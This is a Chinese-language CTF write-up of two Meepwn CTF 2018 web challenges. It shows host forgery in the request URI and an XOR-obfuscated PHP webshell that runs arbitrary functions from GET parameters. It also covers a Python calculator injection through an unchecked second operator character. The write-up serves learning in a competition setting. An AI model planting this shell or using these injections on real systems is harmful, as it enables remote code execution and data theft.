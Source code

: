 # Meepwn CTF Quals 2018
有一段時間沒有玩CTF了，這次一樣只有接觸Web的幾題來做點學習紀錄...  

# OmegaSector
這題的源碼就在`OmegaSector.php`裡面，大致上有兩個關卡：  
1. 如何在`Request_URI`中fake一個hostname  
2. 無文字shell  
```php
include('secret.php');    // FLAG

$remote=$_SERVER['REQUEST_URI'];     // /+後面的內容

if(strpos(urldecode($remote),'..'))    // 沒有文件包含漏洞，不允許使用..
{
mapl_die();
}

if(!parse_url($remote, PHP_URL_HOST))
{
    $remote='http://'.$_SERVER['REMOTE_ADDR'].$_SERVER['REQUEST_URI'];
}
$whoareyou=parse_url($remote, PHP_URL_HOST);   // hostname alien.somewhere.meepwn.team


if($whoareyou==="alien.somewhere.meepwn.team")
{
    if(!isset($_GET['alien']))
```
以上是第一關的關鍵代碼，推測FLAG就在`secret.php`裡，不管如何我們都得想辦法進到下面的if判斷式裡。過程中試了非常多`http://example.com@fake.com`了方法，但是這些方法的fake host都不在`$_SERVER['REQUEST_URI']`，以下面這張圖為例:  
![](https://farm2.staticflickr.com/1765/43444531781_26c94e32f4_b.jpg)  
`REQUEST_URL`就是第一行的`/index.php`，我實在沒辦法把我們需要的fake.com偽造到REQUEST_URI之中。賽後看到WP發現居然可以在burp中這樣送:  
![](https://farm2.staticflickr.com/1790/43444531471_f717157297_b.jpg)  
這邊需要注意一點，我們不能改header中的HOST，代碼中取得`PHP_URL_HOST`是透過我們request的URL，也就是`$remote`，可是直接在burp中傳送完整的URL也讓我有點激動，這樣也算是強行繞過第一關了!  
再來是第二關，我們只能在留言板上留除了字母以及數字外的符號  
![](https://farm1.staticflickr.com/839/42728446884_a2d0253d90_b.jpg)  
這就讓我想到了無文字shell，由於有限制大小，我就放上以XOR為運算基礎的shell  
```php
<?=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);?>
```  
`$_`運算的結果是`_GET`，所以shell中第二段代碼是`$_GET[_]($_GET[__]);`  
![](https://farm2.staticflickr.com/1762/29573824578_836f0cc06b_b.jpg)  
GET SHELL，我用`show_source("../secret.php")`的方式把內容顯示出來...  
![](https://farm2.staticflickr.com/1766/42728435404_863eb1e3b7_b.jpg)  
flag正是`MeePwnCTF{__133-221-333-123-111___}`  

# PyCalx
這題的代碼就在`PyCalx.py`中，這裡就只給出關鍵代碼。這題就像是計算機的功能：  
1. 計算結果只能是數字或布林值，所以不會有`'a'+'b'='ab'`的情節發生  
2. value1跟value2的型態必須相同  
3. value1跟value2無法閉合  
但是有一個漏洞  
```php
def get_op(val):
        val = str(val)[:2]
        list_ops = ['+','-','/','*','=','!']
        if val == '' or val[0] not in list_ops:   
            print('<center>Invalid op</center>')
            sys.exit(0)
        return val
```  
操作符可以輸入兩個字元卻只檢查第一個字元!  
我們還必須了解計算機的工作細節，如果`value1=a&op=+&value2=b`，那就會出現下面的結果:  
```php
>>>> print('a'+'b')
Invalid
```  
首先因為結果不能是字串所以會是invalid，我們還看到value1和value2都會被單引號包起來...  
所以我們可以控操作符的第二個字元，來閉合value2的第一個單引號。Exploit的原理就如下圖:  
![](https://farm1.staticflickr.com/918/28572217837_b4ed344f2f_b.jpg)  
結果是True，運算符是and，就代表`FLAG>source`的結果也要是True(後面的單引號已經被井字號注釋掉了)。這邊我們不能在value中使用字串，也還好我們有`source`和`FLAG`這兩個變數可以用，之後只要fuzzing就能得到FLAG  
flag正是`MeePwnCTF{python3.66666666666666_([_((you_passed_this?]]]]]])`
